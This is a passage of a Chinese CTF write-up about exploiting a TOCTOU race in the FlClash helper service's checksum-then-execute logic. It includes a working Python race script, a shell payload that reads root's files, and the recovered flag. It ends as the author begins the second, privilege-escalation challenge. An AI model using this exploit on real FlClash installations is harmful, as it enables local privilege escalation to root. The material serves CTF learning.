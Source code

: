 根据题目提供的 `fix.patch` 来看，flag1 应该是需要利用被此补丁修复的漏洞。阅读 FLClash 源码得知，这个 `helper` 命令是[提供了一个 HTTP 服务](https://github.com/chen08209/FlClash/blob/v0.8.90/services/helper/src/service/hub.rs)，用来控制 `FLClashCore` 的启动、停止以及获取日志。但是它启动命令的 HTTP api 接受任意命令行，那这不是明显的任意代码执行漏洞吗？当然也没有那么简单，它在运行命令之前会验证 `FLClashCore` 的 sha256 校验和，这个校验和是在构建阶段静态地构建到二进制文件中的（参考：[[1]](https://github.com/chen08209/FlClash/blob/v0.8.90/services/helper/src/service/hub.rs#L43), [[2]](https://github.com/chen08209/FlClash/blob/v0.8.90/services/helper/build.rs)）。

一开始看题目提示说用户是 `nobody`，并且发现题目环境里真有 `unshare` 命令，还以为要涉及 [`kernel.overflowuid`](https://man.archlinux.org/man/user_namespaces.7#Unmapped_user_and_group_IDs)，不过试了一下发现不行，才想起来 `nobody` 用户在 CTF 里不算少见，题目环境运行在 docker、podman 容器里都禁用 user namespace 因此是不可行的。

不过这计算 sha256 的做法怎么看怎么不对劲，对着 patch 盯了好一会儿后突然意识到：这不是有一个 TOCTTOU（time-of-check to time-of-use）漏洞吗？只要在启动 sha256 计算之后、运行命令之前把 `FLClashCore` 文件替换掉，就能执行我们想执行的任意命令了。

首先准备获取 flag 的脚本：

```shell
printf '#!/bin/sh\ncat /root/flag* >&2\n' > getflag.sh
chmod +x getflag.sh
```

由于 `FLClashCore` 文件是无法写入也无法删除的（因为 `/tmp` 目录的权限设置了黏着位），所以把它复制一份，让 `helper` 去执行我们可写的这一份：

```shell
cp -p FLCLashCore foobar
```

接下来写一个 python 脚本，用一个线程去请求 HTTP 接口，另一个线程先短暂等待一会儿然后删除 `foobar` 文件并把它指向我们的脚本。（线程 api 用起来好不习惯，强烈建议此后提供 python HTTP 请求库的环境用 httpx 代替 requests（

```python
import os, requests, threading
def start():
    print(requests.post(
        "http://127.0.0.1:47890/start",
        json={"path": "/tmp/foobar", "arg": "xxxx"},
    ).text)
threading.Thread(target=start).start()
[None for _ in range(300_000)]
os.unlink("foobar")
os.link("getflag.sh", "foobar")'
```

中间那个 for 循环就是短暂等待，sleep 或许也行不过我觉得没必要引入系统调度的不确定性。由于这本质是利用一个竞争条件，所以可能需要多试几次，也可以适当调整循环次数。只要没有看到 hash 校验不通过的报错就是成功了，接着查看日志：

```shell
python3 -c 'import requests; print(requests.get("http://127.0.0.1:47890/logs").text)'
```

本题的 flag 是：`flag{s1mpLE-toctou-ndAy-gOgOGO}`

### 炽热

flag2 我第二天做了一整天也没做出来，最终是在二阶段提示下做出来的，才发现我已经找到正确思路了，只是陷入了一个误区走进了死胡同。

刚拿到 flag1 之后，本来我还想这题出 0-day 漏洞是不是有点过分，而且还是两个，但仔细看了看 flag1 的内容，其中赫然写着这是个 n-day！于是再次去搜索，搜到了 [xmcp 的这条评论](https://github.com/chen08209/FlClash/issues/1131#issuecomment-2848721177)，这也是后来二阶段提示的一部分。这条评论给出了一个明确的提示，我们需要与 FLClashCore 通信来实现提权，并且漏洞的形式很可能与当时 clash-verge-rev 的类似。
